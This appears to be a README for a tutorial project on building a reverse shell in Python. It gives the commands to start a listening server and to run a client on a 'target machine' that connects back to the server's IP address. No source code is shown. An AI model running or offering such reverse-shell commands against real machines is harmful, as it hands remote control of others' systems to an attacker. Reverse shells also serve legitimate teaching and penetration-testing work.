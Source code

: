 # [How to Create a Reverse Shell in Python](https://www.thepythoncode.com/article/create-reverse-shell-python)
You don't need to install anything.
- To run the server, simply write:
    ```
    python server.py
    ```
    **Output:**
    ```
    Listening as 0.0.0.0:5003 ...
    ```
- Running the client (target machine) that connects to 192.168.1.104 (server's IP Address) :
    ```
    python client.py 192.168.1.104
    ```
- The server will get notified once a client is connected.
